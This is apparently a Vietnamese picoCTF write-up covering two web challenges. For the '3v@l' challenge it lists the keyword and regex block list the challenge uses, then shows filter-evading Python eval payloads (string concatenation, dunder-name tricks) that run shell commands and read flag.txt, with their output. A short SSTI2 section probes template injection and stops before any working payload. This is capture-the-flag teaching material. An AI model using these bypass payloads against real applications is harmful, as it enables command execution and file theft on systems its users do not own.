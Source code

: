 ## 3v@l

Dùng hàm `eval` của thư viện `flask`
tuy nhiên chặn kí tự `os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind`
và reg `r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'`
Giờ phải bypass nó
![image](https://hackmd.io/_uploads/SkNxnG6sJx.png)
Cấm hết những kí tự trên này do `REG`
Có thể base64 vẫn ok
`"__import__('os').system('ls')"`
BASE64 -> `Il9faW1wb3J0X18oJ29zJykuc3lzdGVtKCdscycpIg==`
![image](https://hackmd.io/_uploads/ry_nHmpj1x.png)

```
__import__('{}.__sizeof__.__name__[{}.update.__name__.__len__()]+{}.items.__name__[{}.keys.__name__.__len__()]').system('{}.__delattr__.__name__[{}.keys.__name__.__len__()]+{}.items.__name__[{}.keys.__name__.__len__()]')
{}.__delattr__.__name__[{}.keys.__name__.__len__()]+{}.items.__name__[{}.keys.__name__.__len__()] => ls
{}.__sizeof__.__name__[{}.update.__name__.__len__()]+{}.items.__name__[{}.keys.__name__.__len__()] => os

```

:::danger
Sau đây là sửa bài

```python=
__import__('o'+'s').popen('l'+'s').read()
↓
Result: app.py static templates

__import__('o'+'s').popen('l'+'s '+'.'+'.').read()
↓
Result: app bin boot challenge dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var

__import__('o'+'s').popen('ca'+'t '+'.'+'.'+chr(47)+'flag'+'.'+'txt').read()
↓
Result: picoCTF{D0nt_Use_Unsecure_f@nctionscaec21d1}
=> 1 cách nữa để tương tác với eval
```

:::

## SSTI2

`{{7*7}}` -> `49`
Thử thì cũng có vẻ giống nhưng nó sanitize 1 số thành phần ở đây trước hết là `.__` và cả `{%` và `{{`

Mình định làm cách này
in ra các đối tượng có sẵn trong python3
![image](https://hackmd.io/_uploads/S114RyWnkl.png)
Sau đó lợi dụng các length làm index
Dùng Name gắn với index được lấy từ length để lấy ra kí tự mình cần
![image](https://hackmd.io/_uploads/ry3OTuxhye.png)
Tuy nhiên nó sanitize rồi . Tìm cách khác thoi
![image](https://hackmd.io/_uploads/rJVPp_e2kx.png)
Thử cách khác
